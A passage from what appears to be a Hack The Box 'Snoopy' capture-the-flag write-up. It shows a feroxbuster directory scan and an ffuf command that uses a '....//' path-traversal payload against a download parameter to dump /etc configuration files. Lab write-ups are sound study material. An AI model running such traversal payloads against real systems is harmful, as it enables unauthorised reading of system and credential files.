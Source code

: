 ```bash
┌──(bravosec㉿fsociety)-[~/htb/Snoopy]
└─$ feroxbuster -k -t 150 -u 'http://mm.snoopy.htb' -w /usr/share/seclists/Discovery/Web-Content/big.txt -o ferox_mm.txt
... 

┌──(bravosec㉿fsociety)-[~/htb/Snoopy]
└─$ cat ferox_mm.txt | awk '$4!="0w"'
200      GET        2l        4w       26c http://mm.snoopy.htb/robots.txt
```

> http://mm.snoopy.htb/reset_password

![](/assets/obsidian/b19bb4b7750997069cb91b28607bbb62.png)

![](/assets/obsidian/279a42925b29f0914f9c4202c92f93de.png)

## From mattermost service to RCE


### Dump config files via ffuf

Find files in `/etc/`

```bash
┌──(bravosec㉿fsociety)-[~/htb/Snoopy/loot]
└─$ ffuf -c -w /usr/share/seclists/Fuzzing/LFI/LFI-etc-files-of-all-linux-packages.txt -u 'http://snoopy.htb/download?file=....//....//....//..../FUZZ' -fs 0 -od ffuf_lfi
```
